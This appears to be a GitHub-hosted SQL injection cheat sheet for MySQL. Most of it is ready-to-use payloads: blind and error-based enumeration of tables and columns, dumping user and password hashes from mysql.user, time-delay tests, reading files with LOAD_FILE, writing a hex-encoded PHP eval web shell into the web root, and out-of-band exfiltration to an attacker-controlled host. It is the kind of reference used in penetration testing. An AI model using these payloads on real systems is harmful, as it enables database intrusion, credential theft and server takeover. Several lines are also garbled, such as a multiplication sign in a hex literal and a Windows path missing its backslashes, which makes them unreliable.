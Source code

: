 # SQL Injection Cheat Sheet MySQL 

Inspired by
[SQL-Injection-Cheat-Sheet-MySQL](https://blog.safebuff.com/2016/04/11/SQL-Injection-Cheat-Sheet-MySQL/) and 
[SecurityIdiots](http://www.securityidiots.com/Web-Pentest/SQL-Injection/)

- [SQL Injection Cheat Sheet MySQL](#SQL-Injection-Cheat-Sheet-MySQL)
    - [Comments](#Comments)
    - [Version](#Version)
    - [User details](#User-details)
    - [Database details](#Database-details)
    - [Database credentials](#Database-credentials)
    - [Server details](#Server-details)
    - [Table Name](#Table-Name)
    - [Find Tables From Column Name](#Find-Tables-From-Column-Name)
    - [Columns Names](#Columns-Names)
    - [Bitwise AND](#Bitwise-AND)
    - [No Quotes](#No-Quotes)
    - [String Concatenation](#String-Concatenation)
    - [If Statement](#If-Statement)
    - [Avoiding Quotes](#Avoiding-Quotes)
    - [Case Statement](#Case-Statement)
    - [Conditionals](#Conditionals)
    - [Time-delay](#Time-delay)
    - [Command Execution](#Command-Execution)
    - [RunAs](#RunAs)
    - [Read Files](#Read-Files)
    - [Outfile Files to www](#Outfile-Files-to-www)
    - [Out-of-Band Retrieval](#Out-of-Band-Retrieval)
    - [Substrings](#Substrings)
    - [Retrieve Nth Line](#Retrieve-Nth-Line)
    - [Select Nth Row](#Select-Nth-Row)
    - [List Privileges](#List-Privileges)
    
    
    
    
## SQL Injection Cheat Sheet MySQL

### Comments

```
--	 #	MySQL Linux Style            
--+      #	MySQL Windows Style          
#	 #	Hash (URL encode while use)  
--+-	 #	SQL Comment                  
;%00	 #	Null Byte                    
`        #      Backtick   
/*
```

### Version

```
SELECT VERSION();
SELECT @@VERSION;
SELECT @@GLOBAL.VERSION;
```

### User details

```
SELECT user()
SELECT current_user()
SELECT current_user
SELECT system_user()
SELECT session_user()
SELECT user,password FROM mysql.user;   # list Users
```

### Database details

```
SELECT db_name();
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### Database credentials

```
SELECT host, user, password FROM mysql.user;
```

### Server details

```
SELECT @@hostname;
```

### Table Name

```
SELECT table_name FROM information_schema.tables;
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10; #all tables
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'; #Blind
and 0<(select count(*) from xxx) and 1<2    #盲注爆表

AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2)))
(@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0);
AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));-- Available in 5.1.5
```

### Find Tables From Column Name

```
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'columnname';#find table which have a column called 'columnname'
and 0<(select count(xxx) from tbl_user) and 1<2 ＃盲注爆字段
```

### Columns Names

```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename';
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
```

### Bitwise AND

```
SELECT 6 & 2; # returns 2
SELECT 6 & 1; # returns 0
```

### No Quotes 

```
CONCAT(CHAR(97), CHAR(98), CHAR(99))
```

### String Concatenation

```
CONCAT(foo, bar)
```

### If Statement

```
SELECT if(1=1,'foo','bar'); -- returns 'foo'
```

### Avoiding Quotes

```
SELECT 0×414243; # returns ABC
```
### Case Statement

```
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A
```

### Conditionals

```
SELECT IF(1=1,'true','false');
```

### Time-delay

```
SELECT BENCHMARK(1000000,MD5(‘A’));
SELECT SLEEP(5); # >= 5.0.12
```

### Command Execution

```
http://dev.mysql.com/doc/refman/5.1/en/adding-udf.html
```

### RunAs

```
N/A
```

### Read Files

```
SELECT LOAD_FILE('C:Windowswin.ini');
```

### Outfile Files to www

```
select 0x3C3F706870206576616C28245F504F53545B7A5D293B3F3E into outfile '/usr/local/var/www/webshell.php' # <?php eval($_POST[z]);?>"
```

### Out-of-Band Retrieval

```
SELECT LOAD_FILE(concat('\\',(SELECT 1), 'attacker.controlledserver.com\')));
```

### Substrings

```
SELECT substr('Foobr', 1, 1);
```

### Retrieve Nth Line

```
SELECT * FROM table ORDER BY ID LIMIT 3,1
````

### Select Nth Row

```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename' limit 1 offset 1    #bypass limit 1,1
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename' limit 1 offset 2
```

### List Privileges

```
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges;
```

```

    # list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user;
   
    # priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges;
    
    # list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges;
    
    # list privs on columns
```

